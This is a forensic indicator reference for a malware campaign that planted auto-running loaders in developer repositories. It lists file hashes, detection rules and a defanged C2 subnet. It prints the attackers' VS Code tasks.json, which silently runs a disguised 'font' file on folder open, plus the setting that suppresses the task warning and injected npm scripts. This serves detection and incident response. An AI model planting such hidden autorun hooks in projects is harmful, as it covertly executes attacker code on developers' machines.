

# Malware Indicators & Forensic Signatures Reference

**Document Version**: 1.0  
**Classification**: Historical Campaign Technical Analysis  
**Campaign Identifier**: `CAMPAIGN-202610-GH-DEVDRIVE`  
**Target Architecture**: Developer Workstations (Windows/macOS/Linux), VS Code, Node.js, Web Ecosystem  

---

## 1. Overview of the Coordinated Campaign

The documented incident demonstrated an automated, multi-repository compromise pattern. The threat actor gained unauthorized push access to the target GitHub account and executed a scripted campaign across dozens of repositories within a tightly clustered time window (e.g., 6 minutes on October 14, 2026).

To maximize execution probability, the actor deployed four redundant execution vectors across developer touchpoints:
1. **Repository Open Hook**: Triggered automatically when opening the folder in VS Code.
2. **Local Development Hook**: Triggered when running `npm run dev` or `yarn dev`.
3. **Application Startup Hook**: Triggered when running `npm start` or production entrypoints.
4. **Build & Transpile Hook**: Triggered during CSS / JS bundling (`postcss.config.mjs`, `eslint.config.js`).

---

## 2. Technical Signature Catalog



### Signature 1: `SIG-202610-FONT-PAYLOAD-TTF`
- **Component**: Disguised JavaScript C2 Loader
- **Primary File**: `fa-brands-400.ttf`
- **Secondary Companion Suite**: 15 dummy font files (`.woff`, `.woff2`, `.svg`, `.eot`) and a fake `README.md`
- **Observed File Paths**:
  - `public/fonts/fa-brands-400.ttf`
  - `prisma/migrations/.../public/fonts/fa-brands-400.ttf`
  - `src/app/.../public/fonts/fa-brands-400.ttf`
  - `assets/public/fonts/fa-brands-400.ttf`
  - `static/certs/public/fonts/fa-brands-400.ttf`
- **File Metadata**:
  - Size: Exactly `27,525 bytes`
  - SHA-256: `b1b7e39cd73f3d26ca4d9a7d335730f1d5c23db022b17c76248eb2475a985cea`
  - Magic Bytes: `28 66 75 6e` (ASCII `(fun` -> `(function`)
- **Companion `README.md`**:
  - Size: Exactly `811 bytes`
  - SHA-256: `462725bd6964a784d09320e8a719d36e2f1648a0494be108b991515bb2b453a2`
  - Content: Claims to provide fonts for a *"Blockchain Explorer application"*.
- **Confidence Rating**: **CONFIRMED MALICIOUS** (100% confidence).
- **Validation Rule**: If magic bytes are ASCII `(fun` and size is 27,525 bytes, classify as malicious payload. If binary font magic bytes are present, classify as genuine.

---

### Signature 2: `SIG-202610-VSCODE-AUTORUN`
- **Component**: Silent IDE Auto-Run Backdoor Task
- **File Path**: `.vscode/tasks.json`
- **Observed Structure**:
  ```json
  {
    "version": "2.0.0",
    "tasks": [
      {
        "label": "eslint-check",
        "type": "shell",
        "command": "(command -v node >/dev/null 2>&1 && node ./**/public/fonts/fa-brands-400.ttf) || (where node >nul 2>&1 && node ./**/public/fonts/fa-brands-400.ttf) || echo ''",
        "runOptions": {
          "runOn": "folderOpen"
        },
        "isBackground": true,
        "presentation": {
          "reveal": "never",
          "echo": false,
          "focus": false,
          "panel": "shared",
          "showReuseMessage": false,
          "clear": false,
          "close": true
        },
        "problemMatcher": []
      }
    ]
  }
  ```
- **Key Indicators**:
  1. `"runOptions": {"runOn": "folderOpen"}`
  2. `"presentation": {"reveal": "never"}`
  3. Execution command invoking Node against `fa-brands-400.ttf` or hidden script.
- **Confidence Rating**: **CONFIRMED MALICIOUS** (100% confidence).

---

### Signature 3: `SIG-202610-VSCODE-AUTO-PERMIT`
- **Component**: Auto-Task Permission Bypass
- **File Path**: `.vscode/settings.json`
- **Observed Structure**:
  ```json
  {
    "task.allowAutomaticTasks": true,
    "debug.openDebug": "neverOpen"
  }
  ```
- **Key Indicator**: `"task.allowAutomaticTasks": true` planted at workspace level to disable VS Code's security warning modal.
- **Confidence Rating**: **CONFIRMED SUSPICIOUS / MALICIOUS IN CONTEXT**.

---

### Signature 4: `SIG-202610-ROOT-DROPPER`
- **Component**: Root Obfuscated Dropper Module
- **File Path**: `api.js` (root or top-level source)
- **Observed Structure**:
  - Mock API utility functions (`api.get`, `api.post`, `api.login`) returning static status 200.
  - Line 16 contains `export default api;` followed by `200+ spaces`.
  - Trailing obfuscated block contains `var z = '-10846'` and `(function boot(global, require))`.
- **Injected Fragment Hash**: SHA-256 `bbe9336ab30cbcd5063fd4e5676d7efd91a764ee331ee34372ee99f031efaeae`.
- **Confidence Rating**: **CONFIRMED MALICIOUS** (100% confidence).

---

### Signature 5: `SIG-202610-PACKAGE-SCRIPT-INJECTION`
- **Component**: Package Lifecycle Script Trigger
- **File Path**: `package.json`
- **Observed Structure**:
  ```json
  "scripts": {
    "dev": "node api.js && vite",
    "start": "node api.js && node dist/server.js"
  }
  ```
- **Regex Detection Pattern**:
  `r'(node\s+(?:\./)?(?:api\.js|debug_api\.js)\s*&&\s*)'`
- **Confidence Rating**: **CONFIRMED MALICIOUS** (100% confidence when correlated with presence of `api.js`).

---

### Signature 6: `SIG-202610-CONFIG-TRAILING-INJECTION`
- **Component**: Build / Bundler Configuration Hijack
- **File Paths**: `postcss.config.mjs`, `postcss.config.js`, `eslint.config.js`
- **Observed Structure**:
  - Normal configuration exports (`export default config;` or `module.exports = config;`).
  - Followed by 200+ space characters on the same line.
  - Trailing block: `var z = '-10846';(function(...))(global, require)`.
- **Injected Fragment Hash**: SHA-256 `a299375a6d84b36de87d574acb8e66bf73d2e6f8420a52686c1a8f969b4c87b4`.
- **Confidence Rating**: **CONFIRMED MALICIOUS** (100% confidence).

---

## 3. Threat Intelligence & Network Indicators

- **Suspected C2 IP Subnet**: `193.247.144[.]0/24` (specifically referenced in deobfuscated spin-loop IP lookup arrays).
- **Global Runtime Markers**: `global['_V']`, `global['!']`.
- **Network Probing Policy**:
  > [!WARNING]
  > **DO NOT PROBE C2 ENDPOINTS**: In accordance with incident response best practices, suspected external C2 IP addresses must **never** be actively scanned, probed, or pinged from investigation infrastructure. Doing so tips off the threat actor and risks retaliatory actions.
